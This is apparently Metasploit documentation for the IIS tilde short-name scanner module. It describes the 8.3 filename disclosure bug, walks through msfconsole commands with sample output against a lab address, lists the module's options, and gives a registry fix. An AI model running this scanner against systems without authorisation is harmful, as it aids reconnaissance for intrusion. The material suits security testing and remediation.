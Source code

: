 
## Microsoft IIS shortname vulnerability scanner

The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to diclose 8.3 filenames (short names). In 2010, Soroush Dalili and Ali Abbasnejad discovered the original bug (GET request) This was publicly disclosed in 2012. In 2014, Soroush Dalili discovered that newer IIS installations are vulnerable with OPTIONS.

## Vulnerable Application

Older Microsoft IIS installations are vulnerable with GET, newer installations with OPTIONS
  
  
## Verification Steps

  1. Install IIS (default installations are vulnerable)
  2. Start msfconsole
  3. Check:
  
  ```
  msf > use auxiliary/scanner/http/iis_shortname_scanner
  msf auxiliary(iis_shortname_scanner) > set 172.16.249.128
  msf auxiliary(iis_shortname_scanner) > check
  [+] 172.16.249.128:80 The target is vulnerable.
  ```

  4. Scan:
  
  ```
  msf auxiliary(iis_shortname_scanner) > run
  [*] Scanning in progress...
  [+] Directories found
  http://172.16.249.128/aspnet~1
  http://172.16.249.128/secret~1
  [+] Files found
  http://172.16.249.128/web~1.con
  http://172.16.249.128/index~1.htm
  http://172.16.249.128/upload~1.asp
  http://172.16.249.128/upload~2.asp
  [*] Auxiliary module execution completed
  ```

## Options

```
  Module options (auxiliary/scanner/http/iis_shortname_scanner):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  PATH     /                yes       The base path to start scanning from
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                     yes       The target address
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host
```

## Remediation

Create registry key NtfsDisable8dot3NameCreation at HKLM\SYSTEM\CurrentControlSet\Control\FileSystem, with a value of 1


## References

    https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/
    https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability
